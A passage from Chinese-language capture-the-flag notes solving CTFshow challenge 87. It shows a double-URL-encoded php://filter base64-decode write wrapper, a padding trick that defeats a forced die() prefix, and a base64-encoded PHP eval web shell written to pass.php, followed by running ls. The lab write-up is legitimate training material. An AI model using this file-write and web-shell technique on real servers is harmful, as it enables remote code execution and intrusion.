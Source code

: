 ```
    t1.start()

    # 读取上传的文件内容
    READ(session)
```

![image-20240426004850787](D:\Infiltration\笔记\note\图片\image-20240426004850787.png)



### CTFshow-87



解码url，浏览器自动会解码一次，就可以利用这一点绕过

![image-20240425191308620](D:\Infiltration\笔记\note\图片\image-20240425191308620.png)

#### 解法一：Base64

```
php://filter/write=convert.base64-decode/resource=pass.php

两次URL编码：
%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%30%25%36%31%25%37%33%25%37%33%25%32%65%25%37%30%25%36%38%25%37%30
```



![image-20240425192309763](D:\Infiltration\笔记\note\图片\image-20240425192309763.png)



因为使用content时会被强加"<?php die('大佬别秀了');?>"，解码又会以4的倍数进行解码，会被解码的只有phpdie一共6个字节，在前面加上两个字节就不会影响后面解码，这里我加上zz，后面的编码也得是4的倍数



![image-20240425211033282](D:\Infiltration\笔记\note\图片\image-20240425211033282.png)

```
POST
content=<?php @eval($_POST[pass]);?>
Base64编码：
content=zzPD9waHAgQGV2YWwoJF9QT1NUW3Bhc3NdKTs/Pg==
```

使用hackbar发送POST请求，写入pass.php后门文件

![image-20240425230946854](D:\Infiltration\笔记\note\图片\image-20240425230946854.png)

执行ls命令
